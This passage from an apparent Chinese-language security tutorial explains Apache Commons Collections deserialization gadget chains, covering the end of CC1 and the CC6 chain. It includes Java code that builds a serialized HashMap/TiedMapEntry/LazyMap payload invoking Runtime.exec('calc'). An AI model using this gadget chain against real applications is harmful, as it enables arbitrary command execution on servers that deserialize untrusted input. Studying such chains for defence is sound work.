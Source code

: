 ![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-4e1bd15a892435d5362bf5d9000527574a074574.png)

这里来解释一下为什么代理Map和实例化两个 因为我们可以看到两个`membervalue`

第一个实例化对象是把Map给到readObject的`Map.Entry`来调用`entrySet`，第二个实例化对象是通过调用`entrySet`来触发动态代理的`invoke`方法

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-71aba020dccdaf6d0dad17ed0343780a092a8ae5.png)

‍

‍

# CC6

他是不受JDK版本的限制的

‍

CC6其实就是CC1的`LazyMap`后半段+前半段是`HashMap`

‍

链子也很简单 作者从HashMap中发现了如下东西

```java
HashMap#readObject
    TiedMapEntry#hashcode
        LazyMap#get
            InvokerTransformer.transform(就可以调用任意方法执行任意操作)
```

先看`TiedMapEntry`的构造方法比较简单直接传map跟key即可

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-a9f462f93acb81d3fa4feb4812e7671b85214369.png)

‍

所以简单就可以构造出来，这里先放序列化就可以调用calc的

```java
     Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})} ;

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aa");
        HashMap<Object, Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry, "bbb");

        serialize(map2);
```
